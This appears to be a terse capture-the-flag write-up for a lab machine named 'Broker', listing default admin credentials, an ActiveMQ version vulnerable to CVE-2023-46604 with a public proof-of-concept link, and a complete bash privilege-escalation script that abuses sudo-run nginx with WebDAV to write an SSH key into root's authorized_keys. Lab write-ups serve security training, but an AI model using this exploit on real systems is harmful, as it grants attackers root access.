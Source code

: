## Box: Broker

> damiano gubiani 

``` bash
export IP=10.10.11.243
```

# WebApp

admin:admin

> ActiveMQ version 5.15.15


# Vulnerable to CVE-2023-46604 

> PoC repo: https://github.com/rootsecdev/CVE-2023-46604


# PrivEsc PoC

``` bash
#!/bin/bash
echo "[+] making config"
cat <<EOF >/tmp/nginx.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	    listen 1341;
	    root /;
	    autoindex on;
	    dav_methods PUT;

	}
}
EOF
echo "[+] Launching..."
sudo /usr/sbin/nginx -c /tmp/nginx.conf
echo "[+] Creating ssh key"
ssh-keygen
echo "[+] copy file in the root ssh"
curl -X PUT 'http://localhost:1341/root/.ssh/authorized_keys' -d "$(cat root.pub)"
```
